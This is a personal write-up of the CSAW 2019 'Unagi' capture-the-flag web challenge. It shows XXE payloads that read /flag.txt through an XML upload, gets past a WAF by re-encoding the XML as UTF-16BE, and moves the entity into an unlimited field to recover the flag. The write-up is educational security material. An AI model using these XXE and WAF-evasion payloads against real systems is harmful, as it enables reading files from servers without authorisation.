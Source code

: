 ```yaml
---
title: "CSAW 2019: Unagi"
date: 2020-05-21T01:22:16-06:00
draft: false
comments: false
tags: ["web", "xxe"]
categories:
  - writeups
cover: "img/unagi.png"
images: ["img/unagi.png"]
---
```


Back in 2019 I really got into CTFs as a matter of honing my security skills. They were fun to do and enriched my knowledge of cybersecurity - so I got into it pretty quickly.

This was among the first of the challenges I did while under my team, Maple Bacon. At the time, I had plenty experience with SQL injections and XSS attacks, but not nearly enough experience with another common vulnerability: XXE attacks. CSAW 2019 sought to change that.

Let's Begin!
----

_Note: Unfortunately, I do not have screenshots as I partcipated in this CTF long before I realized I wanted to document my progress with them._

The challenge was called "Unagi". Several options were shown: ```home```, ```users```, ```about``` and ```upload```. ```about``` simply said ```flag is at /flag.txt, come get it``` 

It was a website with users Alice and Bob displayed, with their emails, group, and intro. There was an `upload` endpoint that allowed you to upload XML documents to create a new user. And they also had a sample xml file, how nice! 

```
name: Alice
email: alice@fakesite.com
group: CSAW2019
intro: Alice is cool

name: Bob
email: bob@fakesite.com
group: CSAW2019
intro: Bob is cool too
```

```xml
<?xml version='1.0'?>
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
</users>
```

This challenge has taught me one thing: where there is XML, there is XXE injection. Researching for hours about XML vulnerabilities all point to XXE injections being **the** attack to do, so I crafted a pretty classic XXE payload and put it in my file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

But the WAF will reject the file. I sort of just... aimlessly searched the internet for a fix, dismayed to find a bunch of php workarounds, as this was during a time where I definitely wasn't confident with my skills in php, and so I sort of stagnated at this point...

...Until I got curious about the encoding declaration. Standardly, encodings are UTF-8 around the board, but encoding UTF-16 exists - and what would happen if I changed the XML encoding from UTF-8 to UTF-16? This led me down to researching about using [different encodings to bypass WAF filters](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0/):

>An XML document can be encoded not only in UTF-8, but also in UTF-16 (two variants — BE and LE), in UTF-32 (four variants — BE, LE, 2143, 3412), and in EBCDIC...

>...Exotic encodings may also be used to bypass diligent WAFs as they are not always able to process all the encodings listed above. For instance, the libxml2 parser only supports one type of UTF-32 — UTF-32BE, specifically without BOM.

For this issue in particular, UTF-8 and UTF-16 differ in their ways of encoding a sequence of chars. UTF-8's character encodings are 1-4 bytes, while UTF-16's are 2-4. What this challenge's WAF does is look at the byte encoding of a character and match it with whatever blacklist it has. But naturally, UTF-8's character encodings are going to be vastly different from UTF-16's, since there is at least 1 byte of a difference. So when the WAF looks at UTF-16 encodings, it won't be able to detect the malicious characters that is differently encoded in 2 bytes, and assumes the file is clean.

```xml
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

UTF-16 encoding does bypass the WAF but when the flag.txt file is loaded...

```
name: Jam
email: jam@jelly.com
group: AAAAAAAAAAAAAAAAAAAA
```

It's cut off, probably cause the "group" field has a character limit. But interestingly enough, the xml sample file doesn't specify a field we saw before - ```intro```. Could we just put our xxe attack in there?

```xml
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>Fruit Preservatives</group>
        <intro>&xxe;</intro>
    </user>
</users>
```
It works!

```
name: Jam
email: jam@jelly.com
group: Fruit Preservatives
intro: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

----

Looking back at CSAW 2019 now, it's almost obvious that the attack vector here was an XXE. Of course, being young and somewhat new to the collective CTF scene I wouldn't have figured this out from the get-go. It feels nice to know that I have grown and evolved as a CTF hacker, and I will continue to do so. While I got more serious early this year, each CTF I participate in teaches me something new, and I will continue to grow and evolve as I participate in more CTFs. Hopefully if anyone reads this and feels uncertain about how much they don't know, spin it around and see it as an oppurtunity of how much you can learn :) Anyway, this was a quick writeup I did based on my year-old notes on this challenge, so I apologize for the lack of screenshots and otherwise simple presentation of it. This coming weekend, I will be participating in a few different CTFs, so expect more writeups to come soon!


Jam

---
References

Cover Image: [Isabella Mendes](https://www.pexels.com/@isabella-mendes-107313) on Pexels